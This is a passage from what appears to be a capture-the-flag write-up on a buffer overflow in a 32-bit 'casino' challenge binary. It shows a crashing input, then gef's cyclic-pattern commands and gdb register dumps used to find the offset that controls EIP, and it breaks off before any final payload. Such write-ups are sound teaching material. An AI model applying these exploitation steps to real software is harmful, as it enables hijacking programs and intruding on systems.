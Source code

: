 ```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```


### Exploiting the binary
In order to successfully exploit the binary and make it call the **win** function with our desired parameter, we have to follow some basic steps:
1. Find the offset at which we have control over EIP. To do this, we need to generate a payload which we can track any sequence and determine its position in the payload. For this, we used the **gef** extension for peda and **pattern create** and **pattern search** functions of it
	```bash
	gef➤  pattern create 100                                                       
	[+] Generating a pattern of 100 bytes                                           
	aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa      
	[+] Saved as '$_gef0'
	gef➤  run
	Starting program: /home/kayn/Documents/ISC/task3/casino
	Welcome to the Saint Tropez Virtual Casino!
	Please enter your bank account:
	aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa                                                           
	Program received signal SIGSEGV, Segmentation fault.
	0x71616161 in ?? ()
	[ Legend: Modified register | Code | Heap | Stack | String ]                           
	──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
	$eax   : 0xffffd0cf  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
	$ebx   : 0x0       
	$ecx   : 0x1f      
	$edx   : 0xffffd0cf  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
	$esp   : 0xffffd110  →  "aaaraaasaaataaauaaavaaawaaaxaaayaaa"
	$ebp   : 0x70616161 ("aaap"?)
	$esi   : 0xf7f9e000  →  0x001e4d6c
	$edi   : 0xf7f9e000  →  0x001e4d6c
	$eip   : 0x71616161 ("aaaq"?)
	$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
	$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
	──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
	0xffffd110│+0x0000: "aaaraaasaaataaauaaavaaawaaaxaaayaaa"        ← $esp
	0xffffd114│+0x0004: "aaasaaataaauaaavaaawaaaxaaayaaa"
	0xffffd118│+0x0008: "aaataaauaaavaaawaaaxaaayaaa"
	0xffffd11c│+0x000c: "aaauaaavaaawaaaxaaayaaa"
	0xffffd120│+0x0010: "aaavaaawaaaxaaayaaa"
	0xffffd124│+0x0014: "aaawaaaxaaayaaa"
	0xffffd128│+0x0018: "aaaxaaayaaa"
	0xffffd12c│+0x001c: "aaayaaa"
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
	[!] Cannot disassemble from $PC
	[!] Cannot access memory at address 0x71616161
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
	[#0] Id 1, Name: "casino", stopped 0x71616161 in ?? (), reason: SIGSEGV
	──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
	───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
